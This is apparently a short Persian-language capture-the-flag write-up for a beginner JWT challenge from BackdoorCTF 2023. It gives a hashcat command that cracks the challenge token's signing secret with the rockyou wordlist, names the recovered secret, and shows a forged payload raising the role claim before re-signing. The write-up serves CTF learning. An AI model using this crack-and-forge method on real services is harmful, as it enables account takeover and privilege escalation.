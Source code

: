 ```yaml
---
tags:
  - BackdoorCTF
  - BackdoorCTF-2023
  - Begineer
  - JWT
  - Crack
---
```


اول کار jwt که بهمون داده رو با hashcat میزنیم رو کرک با پسورد لیست rockyou

```bash
hashcat eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ik5hcnV0byIsInJvbGUiOiJzaGlub2JpIn0.WJv_YcVsRV15PqzGpq10-w5i2mJ_BI1mBzkZMtAPnIQ -m 16500 -w 2 rockyou.txt
```
پسورد کرک میشه `minato`

```json
{
    "username": "Naruto",
    "role": "NineTails"
}
```
بعد این جیسون رو با کد jwt ساین میکنیم و میفرستیم سمت سرور

!!! نویسنده
    [SafaSafari](https://twitter.com/SafaSafari3)

